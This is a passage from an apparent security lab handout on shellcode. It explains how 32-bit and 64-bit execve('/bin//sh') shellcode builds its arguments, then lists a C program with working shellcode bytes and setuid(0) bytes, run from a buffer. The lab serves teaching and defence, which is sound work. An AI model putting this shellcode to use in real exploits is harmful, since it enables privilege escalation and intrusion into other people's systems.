 - The third instruction pushes "//sh", rather than "/sh" into the stack. This is because we need a 32-bit number here, and "/sh" has only 24 bits. Fortunately, "//" is equivalent to "/", so we can get away with a double slash symbol.
- We need to pass three arguments to execve() via the ebx, ecx and edx registers, respectively. The majority of the shellcode basically constructs the content for these three arguments.
- The system call execve() is called when we set al to 0x0b, and execute "int 0x80".

### 3.3 64-Bit Shellcode

We provide a sample 64-bit shellcode in the following. It is quite similar to the 32-bit shellcode, except that the names of the registers are different and the registers used by the execve() system call are also different. Some explanation of the code is given in the comment section, and we will not provide detailed explanation on the shellcode.

```asm
xor rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov rax, '/bin//sh' ; the command we want to run
push rax
mov rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()'s system call number syscall
```

### 3.4 Task: Invoking the Shellcode

We have generated the binary code from the assembly code above, and put the code in a C program called callshellcode.c inside the shellcode folder. If you would like to learn how to generate the binary code yourself, you should work on the Shellcode lab. In this task, we will test the shellcode.

_Listing 1: callshellcode.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
```